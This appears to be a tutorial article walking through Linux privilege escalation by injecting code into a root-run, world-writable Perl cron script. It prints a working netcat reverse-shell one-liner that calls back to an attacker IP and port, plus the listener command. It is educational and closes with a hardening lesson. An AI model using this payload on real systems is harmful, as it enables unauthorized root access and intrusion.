






Introduction
In this article, I will explain one of the techniques for privilege escalation on Linux systems. This technique relies on exploiting Cron Jobs. If you do not have a background on Cron Jobs or how they work, I recommend reviewing a Cron Jobs overview before continuing with this article.
Explanation
Initial Access as a Low-Privileged User
To begin, we are logged into the system as a low-privileged user called test. Our goal is to escalate our privileges so that we can execute commands as the root user, which holds the highest level of privilege on a Linux system.
Examining the Crontab
Since this technique depends on Cron Jobs, the first thing we need to do is read the system's crontab file to see what scheduled tasks are configured. We do this with the following command:
cat /etc/crontab
After examining the output, we notice something very interesting: one of the scheduled tasks runs a Perl script every single minute, and it runs with root privileges. This is a potential goldmine for privilege escalation -- if we can modify that Perl script, we can inject our own code that will be executed as root.

Checking File Permissions
The next step is to navigate to the directory where the Perl script is located and check whether our low-privileged user has write permissions on the file. The script is located in:
/tmp/
After checking the file permissions, we confirm that our user has both read and write access to the Perl script. This is the critical piece of the puzzle -- we have a script that runs as root every minute via cron, and we can modify its contents.

Crafting the Reverse Shell Payload
Since we can write to the file and it executes as root, we can inject a command that establishes a reverse shell connection back to our attacker machine. This means the system will connect back to us and give us an interactive shell with root privileges.
We write the following code inside the Perl script:
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f")
Before writing this into the file, you need to make two modifications:
- Replace IP with the IP address of your attacking machine (the machine where you want to receive the reverse shell connection)
- Replace PORT with any port number of your choosing that you will listen on
This command works as follows:
1. rm /tmp/f -- removes any existing named pipe at /tmp/f
2. mkfifo /tmp/f -- creates a named pipe (FIFO) at /tmp/f
3. cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT > /tmp/f -- reads from the pipe, feeds it into an interactive shell, redirects both stdout and stderr to a netcat connection back to the attacker, and writes the output back to the pipe, creating a full bidirectional reverse shell

Setting Up the Listener
Before saving the modified script, you need to set up a listener on your attacking machine to catch the incoming reverse shell connection. Use netcat with the following command:
nc -lvp PORT
Replace PORT with the same port number you specified in the reverse shell payload. The flags mean:
- -l -- listen mode
- -v -- verbose output
- -p -- specify the port to listen on

Waiting for Execution
Now we wait. Since the cron job executes every minute, it will not take long. After a short wait, the cron job fires, executes our modified Perl script as root, and the reverse shell payload runs. The target system connects back to our listener.

Result
Once the cron job executes, we receive a reverse shell connection on our netcat listener with root privileges. We have successfully escalated from the low-privileged test user to full root access on the system.
Summary
This privilege escalation technique exploits a misconfigured cron job. The vulnerability exists because a script that runs as root on a scheduled basis is writable by a low-privileged user. By injecting a reverse shell payload into the script, we were able to leverage the cron job's root execution context to obtain a root shell. This highlights the importance of properly securing any scripts or files referenced by cron jobs, especially those running with elevated privileges.
References
